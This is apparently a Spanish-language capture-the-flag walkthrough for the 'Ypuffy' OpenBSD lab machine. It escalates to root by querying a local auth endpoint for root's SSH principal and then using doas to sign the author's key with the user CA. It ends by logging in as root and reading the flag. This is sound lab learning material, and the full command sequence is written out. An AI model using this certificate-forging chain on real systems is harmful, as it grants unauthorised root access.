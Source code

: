 ```
drwxrwxrwt  8 root       wheel   512B Jan  9 03:10 ..
-rw-------  1 alice1978  wheel   1.6K Jan  9 03:14 meh
-rw-r--r--  1 alice1978  wheel   413B Jan  9 03:14 meh.pub
ypuffy$ chmod 777 meh.pub
```

Al final hice accesible mi llave publica meh para cualquiera.

## Security zone of root

Como queremos saber en que zona de seguridad esta el usuario root, por lo que usamos localmente la validación que aprendimos por sshd y ejecutamos como cualquier usuario curl 

```
ypuffy$ /usr/local/bin/curl 'http://127.0.0.1/sshauth?type=principals&username=root'
3m3rgencyB4ckd00r
```

Ya tenemos la zona, ahora pasemos al firmado.

## Signing key to trusted CA

Como hemos visto, el archivo de CA solo podía ser accedido por el usuario userca, por lo que tomando en cuenta las capacidades de DOAS, firmamos nuestro certificado para que tenga acceso a la misma zona de root.

```
ypuffy$ doas -u userca /usr/bin/ssh-keygen -s /home/userca/ca -I miau3 -n 3m3rgencyB4ckd00r -z 1 /tmp/.miu/meh.pub 
Signed user key /tmp/.miu/meh-cert.pub: id "miau3" serial 1 for 3m3rgencyB4ckd00r valid forever
```

Finalmente, ingresamos como root usando el certificado que acabamos de autorizar.

# login as root

```
ypuffy$ ssh root@127.0.0.1 -i meh
OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

ypuffy# id                                                                                                                                                                                                      
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
ypuffy# ls
.Xdefaults .cache     .cshrc     .cvsrc     .login     .profile   root.txt
```

# cat root.txt

`ypuffy# cat root.txt`

... We got root flag.

---

Gracias por llegar hasta aquí, hasta la próxima!
